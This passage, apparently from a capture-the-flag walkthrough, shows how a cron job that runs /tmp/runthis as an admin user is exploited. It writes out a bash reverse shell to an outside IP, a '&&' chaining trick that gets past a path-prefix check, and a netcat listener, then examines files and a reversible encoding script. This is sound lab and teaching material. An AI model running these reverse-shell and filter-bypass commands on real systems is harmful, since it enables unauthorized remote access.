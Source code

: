 So the good news is, we can put a command in a file named `runthis` in `/tmp` directory, and it will be run with privileges of a user called admin.

I tried to this command in the `runthis` file.

~~~bash
/bin/bash -i >& /dev/tcp/192.168.0.107/6666 0>&1
~~~

But when it's run, the `cronresult` shows that it's not successful (my listener doesn't get any incoming connection too).

~~~
command did not start with /home/admin or /usr/bin
~~~

Well, Jerry did say that he only allow commands from /usr/bin/ or /home/admin/. So I tried this instead.

~~~bash
/usr/bin/dir && /bin/bash -i >& /dev/tcp/192.168.0.107/6666 0>&1
~~~

Start `netcat` to listen at port 6666.

~~~
$ nc -lvp 6666
~~~

Wait a minute for the connection, and we got the reverse shell.

### Admin

So we got the access to `/home/admin` with the reverse shell from cron with Jerry's privilege. There are a few interesting files there.

#### 1. whoisyourgodnow.txt

~~~
=RFn0AKnlMHMPIzpyuTI0ITG
~~~

Seems like a reversed base64-encoded string.

#### 2. cryptedpass.txt

~~~
mVGZ3O3omkJLmy2pcuTq
~~~

Seems like it's encrypted using the `cryptpass.py` script.


#### 3. cryptpass.py

~~~python
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
~~~
